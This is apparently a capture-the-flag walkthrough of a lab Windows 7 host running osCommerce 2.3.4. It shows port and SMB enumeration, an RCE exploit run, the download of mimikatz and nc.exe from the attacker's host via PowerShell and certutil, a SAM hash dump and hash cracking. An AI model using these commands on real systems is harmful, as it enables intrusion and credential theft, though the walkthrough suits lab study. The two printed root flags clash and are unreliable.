

# Blueprint

## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.201.107.214 -oN allPorts.txt

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
49160/tcp open  unknown
```

```bash
nmap -sC -sV -p80,135,139,443,445,3306,8080,49152,49153,49154,49158,49159,49160 10.201.107.214 -oN target.txt

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.23 or earlier (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-16T07:30:46
|_  start_date: 2025-10-16T07:20:57
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-10-16T08:30:45+01:00
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 16:ff:d2:6d:6e:93 (unknown)
|_clock-skew: mean: -20m02s, deviation: 34m37s, median: -3s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```

### SMB
```bash
nxc smb 10.201.107.214                                                                                       
SMB         10.201.107.214  445    BLUEPRINT        [*] Windows 7 / Server 2008 R2 Build 7601 x32 (name:BLUEPRINT) (domain:BLUEPRINT) (signing:False) (SMBv1:True) 
```

```bash
nxc smb 10.201.107.214 -u 'guest' -p '' --shares
SMB         10.201.107.214  445    BLUEPRINT        [*] Windows 7 / Server 2008 R2 Build 7601 x32 (name:BLUEPRINT) (domain:BLUEPRINT) (signing:False) (SMBv1:True) 
SMB         10.201.107.214  445    BLUEPRINT        [+] BLUEPRINT\guest: 
SMB         10.201.107.214  445    BLUEPRINT        [*] Enumerated shares
SMB         10.201.107.214  445    BLUEPRINT        Share           Permissions     Remark
SMB         10.201.107.214  445    BLUEPRINT        -----           -----------     ------
SMB         10.201.107.214  445    BLUEPRINT        ADMIN$                          Remote Admin
SMB         10.201.107.214  445    BLUEPRINT        C$                              Default share
SMB         10.201.107.214  445    BLUEPRINT        IPC$                            Remote IPC
SMB         10.201.107.214  445    BLUEPRINT        Users           READ            
SMB         10.201.107.214  445    BLUEPRINT        Windows                         
```

```bash
smbclient -U 'guest' //10.201.107.214/Users  
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Thu Apr 11 18:36:40 2019
  ..                                 DR        0  Thu Apr 11 18:36:40 2019
  Default                           DHR        0  Tue Jul 14 03:17:20 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:41:57 2009
  Public                             DR        0  Tue Jul 14 00:41:57 2009

		7863807 blocks of size 4096. 4762004 blocks available
smb: \>
```

### HTTP

```bash
gobuster dir -u https://10.201.107.214/oscommerce-2.3.4/catalog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x txt,php -k
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.201.107.214/oscommerce-2.3.4/catalog/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/# license, visit http://creativecommons.org/licenses/by-sa/3.0/ (Status: 403) [Size: 1055]
/# license, visit http://creativecommons.org/licenses/by-sa/3.0/.txt (Status: 403) [Size: 1041]
/# license, visit http://creativecommons.org/licenses/by-sa/3.0/.php (Status: 403) [Size: 1041]
/images               (Status: 301) [Size: 369] [--> https://10.201.107.214/oscommerce-2.3.4/catalog/images/]
/download             (Status: 401) [Size: 1316]
/download.php         (Status: 200) [Size: 0]
/privacy.php          (Status: 200) [Size: 11374]
/index.php            (Status: 200) [Size: 15389]
/pub                  (Status: 301) [Size: 366] [--> https://10.201.107.214/oscommerce-2.3.4/catalog/pub/]
/login.php            (Status: 200) [Size: 13421]
/Images               (Status: 301) [Size: 369] [--> https://10.201.107.214/oscommerce-2.3.4/catalog/Images/]
/reviews.php          (Status: 200) [Size: 12187]
/admin                (Status: 301) [Size: 368] [--> https://10.201.107.214/oscommerce-2.3.4/catalog/admin/]
/contact_us.php       (Status: 200) [Size: 12055]
/account.php          (Status: 302) [Size: 0] [--> http://localhost:8080/oscommerce-2.3.4/catalog/login.php?osCsid=75k3sjgks9iutltdupevvelfm7]
/redirect.php         (Status: 302) [Size: 0] [--> http://localhost:8080/oscommerce-2.3.4/catalog/index.php?osCsid=t385v0kiipttbkcal55djrjtt0]
/specials.php         (Status: 200) [Size: 13466]
/includes             (Status: 301) [Size: 371] [--> https://10.201.107.214/oscommerce-2.3.4/catalog/includes/]
/Privacy.php          (Status: 200) [Size: 11432]
/install              (Status: 301) [Size: 370] [--> https://10.201.107.214/oscommerce-2.3.4/catalog/install/]
/Index.php            (Status: 200) [Size: 15556]
/Download             (Status: 401) [Size: 1316]
/Download.php         (Status: 200) [Size: 0]
/Login.php            (Status: 200) [Size: 13373]
/advanced_search.php  (Status: 200) [Size: 18800]
/product_info.php     (Status: 302) [Size: 0] [--> http://localhost:8080/oscommerce-2.3.4/catalog/index.php?osCsid=q0258co06jmlaohab1lk1lsnt0]
/Reviews.php          (Status: 200) [Size: 12251]
/shopping_cart.php    (Status: 200) [Size: 11416]
/shipping.php         (Status: 200) [Size: 11421]
/ext                  (Status: 301) [Size: 366] [--> https://10.201.107.214/oscommerce-2.3.4/catalog/ext/]
/conditions.php       (Status: 200) [Size: 11418]
/INSTALL              (Status: 301) [Size: 370] [--> https://10.201.107.214/oscommerce-2.3.4/catalog/INSTALL/]
/Contact_Us.php       (Status: 200) [Size: 12036]
/IMAGES               (Status: 301) [Size: 369] [--> https://10.201.107.214/oscommerce-2.3.4/catalog/IMAGES/]
/checkout_shipping.php (Status: 302) [Size: 0] [--> http://localhost:8080/oscommerce-2.3.4/catalog/login.php?osCsid=8ve1fpagp0i452m0h22n79h861]
``` 

```bash
http://blueprint.thm:8080/oscommerce-2.3.4/catalog/install/
```


## Exploit

```bash
searchsploit osCommerce 2.3.4    
```



```bash
python3 exploit.py http://blueprint.thm:8080/oscommerce-2.3.4/catalog   
[*] Install directory still available, the host likely vulnerable to the exploit.
[*] Testing injecting system command to test vulnerability
User: nt authority\system

RCE_SHELL$ whoami
nt authority\system

RCE_SHELL$ 
```

```shell
RCE_SHELL$  dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 14AF-C52C

 Directory of C:\Users\Administrator\Desktop

11/27/2019  07:15 PM    <DIR>          .
11/27/2019  07:15 PM    <DIR>          ..
11/27/2019  07:15 PM                37 root.txt.txt
               1 File(s)             37 bytes
               2 Dir(s)  19,492,667,392 bytes free

RCE_SHELL$ more C:\Users\Administrator\Desktop\root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}

RCE_SHELL$ 
```

Compartimos recursos

```bash
python -m http.server 8282
```

nos transferimos mimikatz.exe

```shell
RCE_SHELL$ powershell (New-Object System.Net.WebClient).DownloadFile(\"http://10.9.244.36:8282/mimikatz.exe\", \"mimikatz.exe\")

RCE_SHELL$ dir
 Volume in drive C has no label.
 Volume Serial Number is 14AF-C52C

 Directory of C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes


10/16/2025  09:04 AM         1,355,264 mimikatz.exe
               3 File(s)      1,356,829 bytes
               3 Dir(s)  19,491,307,520 bytes free
```

Nos transferimos nc.exe, para ganar acceso a la maquina

```shell
RCE_SHELL$ certutil.exe -urlcache -split -f http://10.9.244.36:8282/nc.exe nc.exe
****  Online  ****
  0000  ...
  e800
CertUtil: -URLCache command completed successfully.

RCE_SHELL$ dir
 Volume in drive C has no label.
 Volume Serial Number is 14AF-C52C

 Directory of C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes


10/16/2025  09:12 AM            59,392 nc.exe
```

Nos transferimos mimikatz de 32bits

```bash
C:\Users\Lab\Desktop>certutil.exe -urlcache -split -f http://10.9.244.36:8282/mimikatz.exe mimikatz.exe
```

## Privilege Escalation

### mimikatz

```shell
C:\Users\Lab\Desktop>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x86) #18362 Feb 29 2020 11:13:10
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # lsadump::sam
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450

mimikatz # 
```

Cracking de Hash

```bash
cat hash.txt     
30e87bf999828446a1c1209ddde4c450

# no tuvimos suerte con con este wordlist
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 

hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt


30e87bf999828446a1c1209ddde4c450:googleplus   
```


Flag:

```shell
C:\Users\Lab\Desktop> type C:\Users\Administrator\Desktop\root.txt.txt
THM{pea13ce6f8e7882e18cea833e809b0ce}
```

```powershell
Get-Content C:\Users\Administrator\Desktop\root.txt.txt

THM{pea13ce6f8e7882e18cea833e809b0ce}
```